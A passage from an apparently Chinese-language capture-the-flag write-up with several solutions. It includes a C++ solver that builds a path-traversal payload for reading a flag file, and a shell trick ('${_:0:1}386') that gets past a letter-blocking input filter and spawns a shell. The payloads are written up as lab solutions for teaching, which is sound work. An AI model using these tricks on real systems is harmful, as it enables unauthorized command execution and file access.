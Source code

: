 wchar_t woutput[100];
uint8_t output[100];

int main() {
  const char *payload = "Z:\\var\\..\\theflag";

  char *p = (char *)woutput;
  strcpy(p, payload);
  auto wsize = strlen(payload) / 2 + 1;

  auto size = WideCharToMultiByte(CP_UTF8, 0, woutput, wsize, (char *)output,
                                  sizeof(output), nullptr, nullptr);
  size += 1;
  std::cout << size << std::endl;
  for (int i = 0; i < size; ++i) {
    printf("%02x ", (int)output[i]);
  }

  FILE *fp = fopen("test.bin", "wb");
  fwrite(output, 1, size, fp);
  fclose(fp);
  return 0;
}
{% endcodeblock %}

这里加了一些 padding 来保证刚好能塞进去。

## PowerfulShell

Shell 有个东西叫 [Parameter Expansion](https://www.gnu.org/software/bash/manual/html_node/Shell-Parameter-Expansion.html)，其中有一种可以拿来截取字符串。然后这题不能输入字母，可以用的字符有：

```bash
> _1=~
# _1=/players
> _2=$-
# _2=hB
> _3=$_
# _3=input
```

这里的 `$_` 是上一个命令的最后一个参数。在题目源文件里，`eval` 的上一条指令是 `read input`，因此是 `input`。

实际上做的时候没注意到 `~`，不然直接 `s` 和 `h` 拼接起来就得到官方的做法了。

如果只有 `input` 和 `hB` 的话有什么可以用？直接对 docker image 扫 bin 目录我们发现两条：`tput` 和 `i386`。`tput` 是用来输出终端信息的，但要让他向 stdout 输出有用的东西我们需要更多的我们没有的字符；`i386` 是切换架构，*直接执行会给你一个 Shell*。是的。

```bash
${_:0:1}386
```

## 惜字如金 3.0

基本和官方一致。给大家一句建议，像第三问后面这种一看就很线性的东西，善用 z3（）
